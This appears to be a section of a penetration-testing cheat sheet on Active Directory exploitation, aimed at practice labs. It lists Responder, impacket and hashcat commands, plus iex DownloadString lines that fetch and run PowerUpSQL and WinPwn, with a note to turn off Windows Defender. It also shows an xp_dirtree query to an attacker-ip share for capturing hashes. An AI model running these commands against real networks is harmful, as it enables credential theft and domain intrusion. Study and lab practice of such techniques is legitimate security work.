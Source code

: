 ### Repositories for VMs to practice Active Directory

- https://github.com/Orange-Cyberdefense/GOAD
- https://github.com/safebuffer/vulnerable-AD  (For weaker machines)

## 07. Active Directory Exploitation

### Tools for Active Directory Exploitation
 
- Responder

   ```bash
  sudo responder -I eth0
  ```

- impacket-mssqlclient (https://github.com/fortra/impacket/blob/master/examples/mssqlclient.py)

  ```bash
  impacket-mssqlclient 'DOMAIN/username@<target-ip>' -windows-auth
  ```

- PowerUpSQL.ps1 (https://github.com/NetSPI/PowerUpSQL)
  PowerUpSQL Cheat Sheet (https://github.com/NetSPI/PowerUpSQL/wiki/PowerUpSQL-Cheat-Sheet)

  ```powershell
  # On Windows
  iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/NetSPI/PowerUpSQL/master/PowerUpSQL.ps1')
  Get-SQLInstanceDomain
  Invoke-SQLAudit -Instance <target-ip>

  Get-SQLQuery -Instance <target-ip> -Query "EXEC master.sys.xp_dirtree '//<attacker-ip>/share',1,1"
  # On Kali if hash contains $ it means that it is for machine account
  ```

- WinPwn (https://github.com/S3cur3Th1sSh1t/WinPwn)

  ```powershell
  # Run as Administrator
  # Turn off Windows Defender
  iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/master/Offline_WinPwn. ps1')
  # Run WinPwn
  winpwn
  # 3 (Domain Recon)
  # 7 (PowerUpSQL Checks)
  ```

### Optional tools and resources

- hash_idenfier
- https://hashcat.net/wiki/doku.php?id=example_hashes 

  ```bash
  hashcat --example-hashes
  # Crack NTLMV1
  hashcat -m 5500 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
  ```
